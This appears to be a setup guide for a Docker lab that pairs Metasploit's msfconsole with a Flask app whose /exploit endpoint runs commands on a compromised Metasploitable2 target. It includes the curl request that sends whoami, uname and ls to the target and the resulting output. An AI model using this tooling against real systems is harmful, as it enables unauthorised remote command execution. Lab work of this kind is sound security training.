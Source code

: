 # If containers are running:
    docker compose down --remove-orphans

# Build and Start All Containers (might have to run this multiple times to go through)
docker compose up -d --build

# Check the status of all containers to confirm they’re up:
docker ps

# Enter the operator container:
docker exec -it operator /bin/bash

# Once inside, start msfconsole with the required configuration file:
msfconsole -r /usr/src/metasploit-framework/docker/msfconsole.rc

# In a separate terminal, check the logs for eshu to ensure the Flask app started successfully (make sure you're within the improvedOp directory):
docker logs eshu

# Look for a line like this to confirm it’s listening on 10.1.1.99:5000:
 * Running on http://10.1.1.99:5000

# Once eshu is confirmed to be running, open a new terminal and run:
curl.exe -X POST http://localhost:5000/exploit -H "Content-Type: application/json" -d '{\"commands\": [\"whoami\", \"uname -a\", \"ls -la\"]}'

# You should see:
{
    "status": "Commands executed",
    "session_id": "1",
    "output": {
        "whoami": "msfadmin",
        "uname -a": "Linux metasploitable2 5.15.153.1-microsoft-standard-WSL2 #1 SMP Fri Mar 29 23:14:13 UTC 2024 x86_64 GNU/Linux",
        "ls -la": "total 28\ndrwxr-xr-x 5 msfadmin msfadmin 4096 2017-04-11 06:53 .\ndrwxr-xr-x 6 root     root     4096 2010-04-16 02:16 ..\nlrwxrwxrwx 1 root     root        9 2012-05-14 00:26 .bash_history -> /dev/null\ndrwxr-xr-x 4 msfadmin msfadmin 4096 2010-04-17 14:11 .distcc\n-rw-r--r-- 1 msfadmin msfadmin  586 2010-03-16 19:12 .profile\n-rwx------ 1 msfadmin msfadmin    4 2012-05-20 14:22 .rhosts\ndrwx------ 2 msfadmin msfadmin 4096 2010-05-17 21:43 .ssh\n-rw-r--r-- 1 msfadmin msfadmin    0 2017-04-11 06:53 .sudo_as_admin_successful\ndrwxr-xr-x 6 msfadmin msfadmin 4096 2010-04-27 23:44 vulnerable"
    }
}
# You can interact with the active SSH session from msfconsole by running:
sessions
